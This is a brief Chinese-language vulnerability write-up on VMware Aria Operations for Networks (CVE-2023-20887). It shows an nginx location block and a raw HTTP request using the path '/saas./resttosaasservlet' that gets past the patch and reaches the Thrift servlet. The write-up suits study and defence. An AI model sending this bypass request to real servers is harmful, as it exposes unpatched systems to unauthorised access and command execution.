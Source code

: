 由于 nginx 配置不当和拼接命令导致的 rce，用了 thrift 做 rpc。

# VMSA-2023-0012

Aria Operations for Networks Command Injection Vulnerability (CVE-2023-20887) 是对 nginx 规则的绕过

[![](assets/1701612478-724f720d1841683b0e61183bd697d1d9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230614102952-577095de-0a5b-1.png)

上面的漏洞补丁放宽正则禁止了/saasresttosaasservlet 路由，但是下面还有一个 location 块

```bash
location /saas {
    rewrite ^/saas(.*)$ /$1 break;
    proxy_pass http://127.0.0.1:9090;
    proxy_redirect off;
    proxy_buffering off;
    proxy_set_header        Host            $host;
    proxy_set_header        X-Real-IP       $remote_addr;
    proxy_set_header        X-Forwarded-For $proxy_add_x_forwarded_for;
}
```

所以可以绕过

```bash
POST /saas./resttosaasservlet HTTP/2
Host: 192.168.1.155
User-Agent: Java/THttpClient/HC
Accept: application/x-thrift
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

[1,"getSystemInfo",1,1,{"1":{"i32":10000}}]
```
